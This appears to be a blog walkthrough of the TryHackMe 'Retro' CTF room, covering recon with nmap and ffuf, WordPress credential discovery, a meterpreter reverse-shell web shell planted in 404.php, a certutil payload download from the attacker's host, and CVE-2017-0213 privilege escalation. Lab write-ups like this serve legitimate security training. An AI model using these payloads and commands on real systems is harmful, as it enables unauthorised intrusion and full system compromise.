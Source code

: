 ```yaml
---
title: "Retro CTF"
datePublished: Mon Aug 07 2023 09:07:23 GMT+0000 (Coordinated Universal Time)
cuid: cll0nft0w000g09miedbsablx
slug: retro-ctf
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1691627188870/2a66ebc1-6c64-4b17-acf1-62a3cca17df6.png
tags: ctf, penetration-testing, 2articles1week, tryhackme, ctf-writeup

---
```


This walkthrough will go over the [**Retro**](https://tryhackme.com/room/retro) room found on [**TryHackMe**](https://tryhackme.com/). The objective behind this room is to use a bit of passive recon to find a set of credentials in order to RDP into the box, identify a vulnerability in the `Windows COM` `(CVE-2017-0213)`, and privesc to `NT AUTHORITY\SYSTEM`.

### Step 1: What's Out There?

```bash
nmap -sC -sV -p- -Pn retro.thm --min-rate=1000
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398315139/3276f81f-931e-46fc-a431-507ba270bf34.png align="center")

Looks like we have a webserver and an RDP session open. Let's check out what the web server can offer us.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398334110/a54a66b3-878f-4450-be00-382875ec42e0.png align="center")

A default `Microsoft IIS` page. We'll use `ffuf` to enumerate for directories.

### Step 2: FFUF

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://retro.thm/FUZZ -fs 703
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398377905/5a5ad8d7-dd64-4f55-b315-8a631ebb9c81.png align="center")

Nice, we discovered a directory called `/retro`. Let's go to it.

### Step 3: Finding Credentials

We discovered a blog that seems to be run by a username `Wade`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398407110/e8fa1ff2-f791-4a96-a2d9-c9f1ba46c782.png align="center")

After downloading and viewing the `Comments RSS` data, we discovered text that might be a potential password.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691399159508/449ee0ca-cad1-4dcb-a2a0-b59ba4aa2af5.png align="center")

Taking this information and plugging it into the `Site Admin` link allows us to log in to the WordPress admin panel.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398430562/494d3ee4-899a-4795-adf3-b97906094b02.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398433597/744cfd33-ecb7-423b-b836-30bed77627d1.png align="center")

### Step 4: Initial Foothold

Based on my experience with getting a reverse shell with WordPress, we would need to modify the `404.php` file and inject our generated shell code. We can do this with `msfvenom`.

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f raw -o retro_shell.php
```

Now let's start initializing our handler so we can catch the shell once it executes.

1. `msfconsole`
    
2. `use exploit/multi/handler`
    
3. `set payload php/meterpreter/reverse_tcp`
    
4. `set LHOST <ATTACKER_IP>`
    
5. `set LHOST 1337`
    
6. `exploit`
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398464051/5c95ac08-7e7c-49a3-9514-c4a3d63bc638.png align="center")

From here we want to copy our retro\_shell.php code and paste it into `404.php`.We can do this by navigating to Appearance &gt; Theme Editor &gt; 404 Template. Delete the content of the `404.php` file and paste it into your shell. Should look like this.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398480745/2db8d5ef-e503-4dc9-9f49-8772d9867edc.png align="center")

Now navigate to the file in your browser ([http://retro.thm/retro/wp-content/themes/90s-retro/404.php](http://retro.thm/retro/wp-content/themes/90s-retro/404.php)) and it will drop you into a meterpreter session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398490021/d1f3fe9d-5e5e-439d-9033-b0611dee0c68.png align="center")

### Step 5: Detour

Okay, so for some reason I could not get the meterpreter shell to stabilize with the 404.php route. But, that's alright. Sometimes we have to get creative and approach a problem from a different angle... in the end, we still get the same outcome. Root.

So what I decided to do is RDP into the box with our same credentials and upload a payload, set my handler, and catch it with a stable meterpreter session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398523489/9c78942b-a252-4569-8b2b-238ee9494308.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398526561/f18a5b32-ae22-4469-b5c9-49e5096bf9e5.png align="center")

Generate a payload using `msfvenom`.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe -o payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398540276/0f5e97a2-b254-4ccd-b7cb-d58b87a1bd9b.png align="center")

Start an HTTP Server and transfer it over using `certutil`.

```bash
certutil -urlcache -f http://10.13.28.215:8000/payload.exe payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398553018/d660007e-e76a-4ec6-ac77-c2bc1f327f0d.png align="center")

Now we want to set up our listener and catch the shell. Same as before with a slight modification.

1. `msfconsole`
    
2. `use exploit/multi/handler`
    
3. `set payload windows/x64/meterpreter/reverse_tcp`
    
4. `set LHOST <ATTACKER_IP>`
    
5. `set LPORT 1337`
    
6. `exploit`
    

Run the payload from the victim box and drop it into a meterpreter session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398569944/b784bfca-e595-4ef2-83ed-4120ec8541dc.png align="center")

### Step 6: Privesc

We're going to use the `Windows Exploit Suggester (WES)` to find a way to elevate our privileges. First, we need to pull the system's information in order to pull this off.

> `systeminfo > sysinfo.txt`

Now we can pull it down to our attack box.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398607012/92071128-8d78-40c2-9043-f7c95ff08f5e.png align="center")

From here we can use `WES` to find a privesc vector (update database before running:

```bash
./windows-exploit-suggester.py --update
```

```bash
./windows-exploit-suggester.py --database 2023-08-07-mssb.xls --sysinfo ~/sysinfo.txt --ostext 'windows 10 64-bit' -l
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398680395/042c573a-f970-4fba-b5e9-26512fb32738.png align="center")

This build of Windows 10 is vulnerable to a `Windows COM` privesc, `CVE-2017-0213`. There's a binary that we can use to automate this exploit for us. Let's download it to our attack box and upload it to our victim. Link to binary here: [https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213)

Once we get it on our victim box we can run it and then move over to our RDP session and find a new CMD shell spawned with `NT AUTHORITY\SYSTEM` rights.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691399172768/3d8491c3-f96f-4d6b-912d-db3096f8356b.png align="center")

Finally...this one was very difficult and time-consuming. I ended up going down multiple rabbit holes and failing at stabilizing shells more times than I'd like to admit. But all-in-all, I can say this box was rewarding and has taught me a lot about Windows privesc. I hope you enjoyed this walkthrough, and as always, Happy Hacking.